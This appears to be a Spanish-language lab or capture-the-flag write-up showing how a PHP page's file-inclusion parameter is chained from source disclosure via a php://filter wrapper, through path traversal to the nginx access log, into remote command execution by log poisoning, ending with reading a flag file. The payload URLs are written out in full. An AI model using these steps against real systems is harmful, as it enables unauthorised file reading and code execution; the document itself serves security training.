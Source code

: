 # LFI: Información Expuesta -> LFI -> RCE 🔃⚔

La página web que vulneraremos es

![Web.PNG](./assets/10-Decimo/01-Web.PNG)

* Para incluir un **archivo** tenemos el parámetro `?page=[Archivo]`

---

Tras testear múltiples payloads no conseguí información alguna, por lo que ahora, usaremos un `wrapper`, especificamente para obtener el contenido de un archivo en **base64**.

* **URL:** `http://<IP Web>:<Puerto>/index.php?page=php://filter/read=convert.base64-encode/resource=index`

<p align="center">
    <img src="./assets/10-Decimo/02-index.PNG">
</p>

---

Decodemos el contenido obtenido, lo guardamos en un archivo y obtenemos:

* Decodear y guardar en un archivo
    ```bash
    echo "[Contenido en Base64 Obtenido]" | base64 -d > index.php
    ```

* Vemos contenido interesante en `index.php`

<p align="center">
    <img src="./assets/10-Decimo/03-url.PNG">
</p>


* Conseguimos otra ruta en el sistema. 🎯

---

<p align="center">
    <img src="./assets/10-Decimo/04-filter.PNG">
</p>

* Veemos el filtro que se aplica al argumento que se le pasa. 🎈

---

Visitamos la ruta obtenida previamente.

* **URL:** `http://<IP web>:<Puerto>/ilf_admin/index.php?log=system.log`

![Web.PNG](./assets/10-Decimo/05-Web.PNG)

---

Después de fuzzear la página web, vemos esto:

<p align="center">
    <img src="./assets/10-Decimo/06-fuzz.PNG">
</p>

Si por curiosidad lo visitamos
* **URL:** `http://<IP Web>:<Puerto>/ilf_admin/logs/`

<p align="center">
    <img src="./assets/10-Decimo/07-nginx.PNG">
</p>

---

Con la información anterior, veremos si podemos `leer los logs` del servidor nginx. 🏴

* **URL:** `http://<IP Web>:<Puerto>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log`


<p align="center">
    <img src="./assets/10-Decimo/08-logs.PNG">
</p>

---

Para lograr un `RCE` haremos un `Log Poisoning` 💀. Para esto interceptaremos una solicitud con **Burp Suite** y cambiaremos la `cabecera User-Agent` por código PHP, el cual nos permitirá ejecutar comandos mediante el parámetro `?cmd=[Comando]`

<p align="center">
    <img src="./assets/10-Decimo/09-burp.PNG">
</p>

---

Ahora ejecutaremos un comando para listar los archivos de la raíz `/`

* **URL:** `http://<IP Web>:<Puerto>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log&cmd=ls /`

<p align="center">
    <img src="./assets/10-Decimo/10-ls.PNG">
</p>

---

Por último, leemos el archivo `flag`.txt

<p align="center">
    <img src="./assets/10-Decimo/11-flag.PNG">
</p>